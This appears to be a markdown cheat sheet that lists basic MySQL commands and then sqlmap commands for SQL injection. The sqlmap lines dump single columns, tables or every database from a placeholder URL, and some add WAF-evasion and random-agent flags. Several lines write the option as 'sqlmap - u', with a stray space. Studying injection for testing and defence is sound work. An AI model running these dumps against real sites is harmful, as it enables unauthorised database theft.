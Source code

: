 
						<h1>SQL</h1>


<h3>Basic Commands Mysql</h3>
`create database d1;		          `	**TO CREATE DATABASE
`show database; 			  `		**TO SHOW ALL DATABASES
`use database-name;                       `    		**TO USE DATABASE
`drop database d1;		       	  `		**TO DELETE DATABASE
`create table t1(name char(20), age int );`		**TO CREATE TABLE WHERE name, age IS COLUMN RESPECTED DATA TYPE char, int 
`insert t1 values("name",20);             ` 	  	**TO INSERT VALUES INTO TABLE 
`show tables;			       	  `		**TO SHOW TABLES	
`delete from t1;                          `             **TO DELETE ALL STORED DATA IN TABLE
`drop table  t1, t2;                      `	        **TO DELETE TABLE
`alter table t1 add Column-Name char(20); `		**TO ADD NEW COLUMN IN TABLE
`alter table t1 drop Column-Name;         `		**TO DELETE COLUMN IN TABLE


<h3>Advance Commmands Mysql</h3>
`set password for user@localhost=password('password');` **TO SET OR RESET PASSWORD
`commit;`						**TO MAKE CHANGES PUBLICLY OF DATABASE'S DATA
`update t1 SET name='test' where age=20;              ` **TO CHANGE DATA IN COLUMN

**Some Operation Mysql**
* Union - Operation to fetch common output between two queries. but the number of columns and the data type of column's must be same to the both side of UNION
  `select name,age from t1 union select nickname, id from t2;`





					<h1>SQL Injection</h1>


<h5>SQLmap Usage</h5>

**TO FETCH ONLY COLUMN'S DATA
`sqlmap - u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump` 

**TO FETCH ONLY ALL COLUMN & ITS DATA
`sqlmap - u "url?prm=" -p prm -D dbname -T table_name  --dump`

**TO FETCH ENTIRE DATABASE'S DATA 		     
`sqlmap - u "url?prm=" -p prm -D dbname  --dump`

**TO FETCH ALL DATABASES
`sqlmap - u "url?prm=" -p prm --dbs  --dump` 
or use --dump-all instead of --dump to fetch all databases's all tables and columns  


<h5>Extra Parameter to Optimise SQLmap's Performance</h5>
* Parameters    **--method GET,   --code 200, --skip-waf, --random-agent, --threads 10 -o **
* Optimised Url **sqlmap -u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump --method GET --code 200 --skip-waf --random-agent --threads 10 -o**

